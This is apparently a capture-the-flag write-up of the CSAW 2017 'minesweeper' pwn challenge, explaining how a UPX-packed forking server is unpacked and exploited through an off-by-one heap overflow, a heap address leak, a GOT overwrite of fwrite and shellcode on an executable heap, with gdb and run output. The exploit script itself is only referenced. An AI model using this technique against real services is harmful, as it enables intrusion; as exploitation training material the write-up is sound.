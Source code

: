 # minesweeper
## Pwn 500

#### direwolf 

Opening this in a disassembler initially doesn't show us much - no xrefs, no strings, few functions, etc. Additionally, running `file` shows that it's a stripped binary with no additional details. Running a quick xxd on the header shows us why -- the binary is UPX packed.

![xxd](img/xxd.png)

    ubuntu ~/ShellCollectingClub/CSAW2017/minesweeper >>> upx -d minesweeper_packed
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2013
    UPX 3.91        Markus Oberhumer, Laszlo Molnar & John Reiser   Sep 30th 2013

        File size         Ratio      Format      Name

     13132 <-      7936   60.43%  netbsd/elf386  minesweeper_packed

    Unpacked 1 file.
    ubuntu ~/ShellCollectingClub/CSAW2017/minesweeper >>>

With that out of the way, we can get started.

This binary is a forking server listening on 31337. It provides a menu where we can start a new game, intiialize a board, or quit. To start, let's see what happens when we play a new game and view the board.

    ubuntu ~/ShellCollectingClub/CSAW2017/minesweeper >>> nc localhost 31337

    Hi. Welcome to Minesweeper. Please select an option:
    1) N (New Game)
    2) Initialize Game(I)
    3) Q (Quit)
    n
    Welcome. The board has been initialized to have a random *mine*placed in the midst. Your job is to uncover it. You can:
    1) View Board (V)
    2) Uncover a location (U X Y). Zero indexed.
    3) Quit game (Q)
    v
    OOOOO
    OOOOO
    OOOXO
    OOOOO
    OOOOO
    v


    i~�
    �x�






    +���

    ؎
    ����

We see that this shows a default game board and sprays some extra bytes back at us too (this is useful later). From here, we can try to play the game (but I never actually got it to work). 

The other option is to initialize our own board.

    ubuntu ~/ShellCollectingClub/CSAW2017/minesweeper >>> nc localhost 31337

    Hi. Welcome to Minesweeper. Please select an option:
    1) N (New Game)
    2) Initialize Game(I)
    3) Q (Quit)
    i
    Please enter in the dimensions of the board you would like to set in this format: B X Y
    B 10 10
    HI THERE!!
      +---------------------------+---------------------------+
      |      __________________   |                           |
      |  ==c(______(o(______(_()  | |''''''''''''|======[***  |
      |             )=\           | |  EXPLOIT   \            |
      |            / \            | |_____________\_______    |
      |           /   \           | |==[--- >]============\   |
      |          /     \          | |______________________\  |
      |         / RECON \         | \(@)(@)(@)(@)(@)(@)(@)/   |
      |        /         \        |  *********************    |
      +---------------------------+---------------------------+
                                                               
    IIIIII    dTb.dTb        _.---._       
      II     4'  v  'B   ."""" /|\`."""". 
      II     6.     .P  :  .' / | \ `.  : 
      II     'T;. .;P'  '.'  /  |  \  `.' 
      II      'T; ;P'    `. /   |   \ .'  
    IIIIII     'YvP'       `-.__|__.-'     
    -msf                                   
    Please send the string used to initialize the board. Please send X * Y bytes follow by a newlineHave atleast 1 mine placed in your board, marked by the character X

At this point, the server prints a debug statement:

    Allocated buffer of size: 81

This is obviously an off-by-one issue where, instead of allocated 10\*10 bytes, the server has allocated 9\*9. This sounds like a decent overflow candidate and can be verified by connecting gdb, sending 100 bytes (with the mandatory 'X' character) and catching the segfault. I used a pwntools `cyclic()` for this.

    [----------------------------------registers-----------------------------------]
    EAX: 0x61617761 ('awaa')
    EBX: 0x0
    ECX: 0x4
    EDX: 0x61617861 ('axaa')
    ESI: 0x1
    EDI: 0xf778f000 --> 0x1b5db0
    EBP: 0xffeb8df8 --> 0xffeb8e38 --> 0xffeb8e88 --> 0xffeb8ed8 --> 0xffeb8ef8 --> 0xffeb8f48 (--> ...)
    ESP: 0xffeb8de0 --> 0x0
    EIP: 0x8049855 (mov    DWORD PTR [eax+0x8],edx)
    EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
       0x804984c:	mov    eax,DWORD PTR [ebp+0x8]
       0x804984f:	mov    eax,DWORD PTR [eax+0x4]
       0x8049852:	mov    edx,DWORD PTR [ebp-0xc]
    => 0x8049855:	mov    DWORD PTR [eax+0x8],edx
       0x8049858:	mov    eax,DWORD PTR [ebp+0x8]
       0x804985b:	mov    eax,DWORD PTR [eax+0x8]
       0x804985e:	mov    edx,DWORD PTR [ebp-0x10]
       0x8049861:	mov    DWORD PTR [eax+0x4],edx
    [------------------------------------stack-------------------------------------]
    0000| 0xffeb8de0 --> 0x0
    0004| 0xffeb8de4 --> 0xf778f000 --> 0x1b5db0
    0008| 0xffeb8de8 ("awaaaxaa\004")
    0012| 0xffeb8dec ("axaa\004")
    0016| 0xffeb8df0 --> 0x4
    0020| 0xffeb8df4 --> 0x9c5d024 ("Xaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaa\022")
    0024| 0xffeb8df8 --> 0xffeb8e38 --> 0xffeb8e88 --> 0xffeb8ed8 --> 0xffeb8ef8 --> 0xffeb8f48 (--> ...)
    0028| 0xffeb8dfc --> 0x80499ea (add    esp,0x10)
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x08049855 in ?? ()
    gdb-peda$

As we see here, we have an arbitrary write to the address at eax+0x8. Time to check our memory map.

    gdb-peda$ vmmap
    Start      End        Perm	Name
    0x08048000 0x0804b000 r-xp	/mnt/hgfs/VMShare/ShellCollectingClub/CSAW2017/minesweeper/minesweeper
    0x0804b000 0x0804c000 rwxp	/mnt/hgfs/VMShare/ShellCollectingClub/CSAW2017/minesweeper/minesweeper
    0x09c5d000 0x09c5e000 rwxp	[heap]
    0xf75d9000 0xf778d000 r-xp	/lib/i386-linux-gnu/libc-2.24.so
    0xf778d000 0xf778f000 r-xp	/lib/i386-linux-gnu/libc-2.24.so
    0xf778f000 0xf7790000 rwxp	/lib/i386-linux-gnu/libc-2.24.so
    0xf7790000 0xf7793000 rwxp	mapped
    0xf77bb000 0xf77be000 rwxp	mapped
    0xf77be000 0xf77c0000 r--p	[vvar]
    0xf77c0000 0xf77c2000 r-xp	[vdso]
    0xf77c2000 0xf77e5000 r-xp	/lib/i386-linux-gnu/ld-2.24.so
    0xf77e5000 0xf77e6000 r-xp	/lib/i386-linux-gnu/ld-2.24.so
    0xf77e6000 0xf77e7000 rwxp	/lib/i386-linux-gnu/ld-2.24.so
    0xffe99000 0xffeba000 rwxp	[stack]
    gdb-peda$

Lots of joy with rwx stack and heap (which we can also verify with peda's nxtest if we really want to). We can then use peda's searchmem function to find our cyclic pattern in memory, which shows us that our buffer is on the heap (reenforced by the message showing that the server just allocated us some memory. 

Given that the heap is executable and the server lets us send an arbitrary buffer of up to `n` bytes, this seems like a great place to store some shellcode and return. Assuming that ASLR is on (which I didn't actually test but seemed like a solid assumption based on other challenges this competition), we need a memory leak. This is where the ability to View the board comes in.

Starting a new session and viewing the board again - we can inspect the extra memory that was thrown back at us for any addresses that jump out. Since this is a new session, we only see stack addresses. On a hunch, I allocated a new initial board and viewed it, this time yielding some heap addresses which give us a constant offset to our buffer. Success! 

![heapbytes](img/heapbytes.png)

The next challenge is finding a candidate to write too. Luckily, from parsing the disassembly, we find a call to fwrite shortly after our input is written to the buffer ("Delinked!"). So, we overwrite fwrite's GOT with the address to our heap buffer and get code exec!

From here, I upped the buffer size to make some more room for shellcode. There were also some issues where additional board data was written to the buffer afterward which would mangle our shellcode. While I'm sure there is a smarter, more precise solution, I did a `read` syscall to a later position in our buffer (shellcraft is great) to write unmangled shellcode, then did a relative jump to that with a `cat flag` to win.

    ubuntu ~/ShellCollectingClub/CSAW2017/minesweeper >>> ./win.py 
    [*] '~/ShellCollectingClub/CSAW2017/minesweeper/minesweeper'
        Arch:     i386-32-little
        RELRO:    No RELRO
        Stack:    No canary found
        NX:       NX disabled
        PIE:      No PIE (0x8048000)
        RWX:      Has RWX segments
    [*] Loaded cached gadgets for './minesweeper'
    [+] Opening connection to pwn.chal.csaw.io on port 7478: Done
    leaking some heap:
    Heap is: 0x93740f0
    Target is: 0x9374100
    [*] Switching to interactive mode

    flag{h3aps4r3fun351eabf3}

Overall, relatively straightforward for a 500pt challenge. See win.py for our solution!
